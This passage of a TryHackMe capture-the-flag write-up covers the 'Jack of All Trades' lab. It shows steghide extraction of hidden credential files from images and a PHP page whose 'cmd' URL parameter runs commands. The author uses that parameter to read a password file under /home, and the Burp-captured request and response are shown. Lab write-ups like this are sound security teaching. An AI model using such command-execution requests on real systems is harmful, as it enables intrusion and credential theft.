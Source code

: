 Remember those credentials we found earlier?  This is where we use it!  

```
┌──(edward㉿repoman)-[~/Documents/tryhackme/jackofalltrades]
└─$ **steghide --extract --stegofile stego.jpg **
Enter passphrase:  
wrote extracted data to "creds.txt".
┌──(edward㉿repoman)-[~/Documents/tryhackme/jackofalltrades]
└─$ **cat creds.txt**                         
Hehe. Gotcha!

You're on the right path, but wrong image!
```

### Checking the other two images

```
┌──(edward㉿repoman)-[~/Documents/tryhackme/jackofalltrades]
└─$ steghide --extract --stegofile jackinthebox.jpg 
Enter passphrase: 
steghide: could not extract any data with that passphrase!
                                                                                                                                                                                                               
┌──(edward㉿repoman)-[~/Documents/tryhackme/jackofalltrades]
└─$ steghide --extract --stegofile header.jpg                                                                                                                                                              1 ⨯
Enter passphrase: 
wrote extracted data to "cms.creds".
                                                                                                                                                                                                               
┌──(edward㉿repoman)-[~/Documents/tryhackme/jackofalltrades]
└─$ cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: **REDACTED**
Password: **REDACTED**

```

## Visit the PHP log in page 

We see this message after we log in:  

```
GET me a 'cmd' and I'll run it for you Future-Jack. 
```

submitting commands via the "cmd" parameter, we find a file with passwords:  
`http://127.0.0.1:8000/**REDACTED**/index.php?cmd=cat+/home/**REDACTED** (Captured with Burp Suite)`  

```
HTTP/1.1 200 OK
Date: Tue, 20 Sep 2022 04:39:47 GMT
Server: Apache/2.4.10 (Debian)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 476
Connection: close
Content-Type: text/html; charset=UTF-8

GET me a 'cmd' and I'll run it for you Future-Jack.  
**REDACTED**
```
